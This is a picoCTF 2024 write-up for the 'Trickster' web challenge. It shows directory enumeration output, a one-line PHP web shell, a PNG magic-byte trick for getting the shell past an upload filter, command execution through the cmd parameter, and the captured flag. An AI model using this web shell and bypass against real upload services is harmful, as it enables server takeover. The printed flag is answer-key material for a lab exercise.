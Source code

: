 ### Trickster

Author: Junias Bonou
#Medium #web_exploitation #picoCTF2024 #browser_web_shell 
#### Description

I found a web app that can help process images: PNG images only! Try it [here](http://atlas.picoctf.net:53515/)!

##### Solution:
search the web directory using dirsearch

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/dirsearch]± ● master
└─$ python3 dirsearch.py -u http://atlas.picoctf.net:58821/


  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11730

Output: /home/kali/Downloads/dirsearch/reports/http_atlas.picoctf.net_58821/__24-09-29_00-37-51.txt

Target: http://atlas.picoctf.net:58821/

[00:37:51] Starting: 
[00:38:14] 403 -  285B  - /.ht_wsr.txt                                               
[00:38:14] 403 -  285B  - /.htaccess.bak1                                            
[00:38:14] 403 -  285B  - /.htaccess.orig                                            
[00:38:14] 403 -  285B  - /.htaccess.sample
[00:38:15] 403 -  285B  - /.htaccess.save
[00:38:15] 403 -  285B  - /.htaccess_orig
[00:38:15] 403 -  285B  - /.htaccess_extra
[00:38:15] 403 -  285B  - /.htaccessOLD2                                             
[00:38:15] 403 -  285B  - /.htaccess_sc
[00:38:15] 403 -  285B  - /.htaccessOLD                                              
[00:38:15] 403 -  285B  - /.htaccessBAK                                              
[00:38:15] 403 -  285B  - /.htm
[00:38:15] 403 -  285B  - /.html                                                     
[00:38:15] 403 -  285B  - /.htpasswd_test
[00:38:15] 403 -  285B  - /.htpasswds                                                
[00:38:15] 403 -  285B  - /.httr-oauth
[00:41:44] 200 -   62B  - /robots.txt                                                 
[00:41:49] 403 -  285B  - /server-status/                                             
[00:41:49] 403 -  285B  - /server-status
[00:42:17] 301 -  333B  - /uploads  ->  http://atlas.picoctf.net:58821/uploads/       
[00:42:17] 403 -  285B  - /uploads/                                                   
     
Task Completed

```

```cs
http://atlas.picoctf.net:58821/robots.txt

User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

```css
http://atlas.picoctf.net:58821/instructions.txt

Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

now here try to upload this as shell.png.php
 it will upload successfully but when you try to execute command it will not work
so make it work we need to follow the instruction
```css
make sure the magic bytes match 
	(not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
```
now open hexeditor and replace original hexadecimal with magic hexadecimal
![Trickster/hexeditor\_shell.png.php.jpg](Trickster/hexeditor_shell.png.php.jpg)


problem here if you try to edit then your PHP code will not work so we need to modify PHP code first

```php
hello
<?php echo "Shell";system($_GET['cmd']); ?>
```
now open hex editor again
![Trickster/hexeditor\_shell.png.php\_part1.jpg](Trickster/hexeditor_shell.png.php_part1.jpg)

add magic hexadecimal  `50 4E 47`
![Trickster/hexeditor\_shell.png.php\_modified.jpg](Trickster/hexeditor_shell.png.php_modified.jpg)
save and upload again and execute command
![Trickster/sucessfully\_uploaded.jpg](Trickster/sucessfully_uploaded.jpg)

![Trickster/shellcode\_working.jpg](Trickster/shellcode_working.jpg)

```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=whoami

PNGlo Shellwww-data
```

![Trickster/find\_commad.jpg](Trickster/find_commad.jpg)

```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=find%20/%20-name%20%22*.txt%22

PNGlo Shell/usr/lib/python3.9/LICENSE.txt /usr/local/lib/php/.channels/.alias/pear.txt /usr/local/lib/php/.channels/.alias/pecl.txt /usr/local/lib/php/.channels/.alias/phpdocs.txt /usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt /usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt /usr/share/perl/5.32.1/Unicode/Collate/keys.txt /usr/share/perl/5.32.1/unicore/Blocks.txt /usr/share/perl/5.32.1/unicore/NamedSequences.txt /usr/share/perl/5.32.1/unicore/SpecialCasing.txt /var/www/html/MQZWCYZWGI2WE.txt /var/www/html/instructions.txt /var/www/html/robots.txt 
```

![Trickster/flag.jpg](Trickster/flag.jpg)


```css
http://atlas.picoctf.net:53515/uploads/shell.png.php?cmd=cat%20/var/www/html/MQZWCYZWGI2WE.txt

PNGlo Shell/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b} */
```
